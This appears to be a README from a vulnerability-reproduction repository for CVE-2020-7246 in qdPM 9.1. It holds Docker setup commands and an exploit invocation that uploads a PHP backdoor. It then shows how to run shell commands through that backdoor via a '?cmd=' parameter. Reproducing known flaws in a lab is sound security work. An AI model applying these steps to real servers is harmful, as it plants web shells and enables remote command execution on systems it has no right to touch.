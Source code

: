 # CVE-2020-7246

## About
* <https://nvd.nist.gov/vuln/detail/CVE-2020-7246>


## PoC / Exploit
 * <https://docs.google.com/document/d/13ZZSm0DL1Ie6r_fU5ZdDKGZ4defFqiFXMG--zDo8S10/edit>
 * <https://www.exploit-db.com/exploits/47954>

## Environment used
* Ubuntu 18.04 LTS
* qdPM 9.1

## Requirements
* docker
## Reproduction 
Commands to build the environment
```shell script
docker load -i CVE-2020-7246.dockerimage.tar.gz
docker run -it -p 8080:80 cve20207246
```
Command to inject malicious php file
```shell script
python3 qdPM-exploit.py -url http://localhost:8080/ -u teste@localhost.com -p teste
```
* Next open the browser on the following link: <http://localhost:8080//uploads/users/>
* Select one of the php files of the format *-backdoor.php, getting a url in the format of <http://localhost:8080//uploads/users/695661-backdoor.php>
* Add the ``` ?cmd=whoami ``` at the end of the url and ``` www-data ``` should appear as the response